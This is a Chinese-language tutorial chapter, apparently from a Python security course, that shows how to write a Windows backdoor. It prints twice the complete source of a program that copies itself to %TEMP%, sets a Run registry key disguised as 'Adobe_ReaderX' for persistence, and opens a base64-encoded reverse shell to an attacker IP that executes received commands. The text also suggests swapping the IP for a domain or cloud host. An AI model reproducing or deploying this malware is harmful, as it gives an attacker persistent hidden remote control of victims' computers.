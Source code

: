 # exp 编写

本节将带着大家利用前面章节所学到的知识使用 Python 和 PyInstalle 自己的 exp,在前面的[章节](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md),讲到了如何把一个 python 脚本编译成为一个可执行的 PE 文件,现在让我们利用前面学到的知识快速写一个 windows 工具脚本.

### 开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在 windows 里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```py
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass 
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个 shell,通过一个 Python 脚本——[TrustedSec](https://www.trustedsec.com/files/RevShell_PoC_v1.py)来实现攻击,但是做了一点修改,对传输的文本做了一个 base64 编码.

```py
def shell():
#Base64 编码反向 shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定 IP,这里可以修改为一个域名或者是 Amazon cloud 的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被 base64 编码后的数据流量包

![malware](img/0xc.png)

下面是完整代码:

```py
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```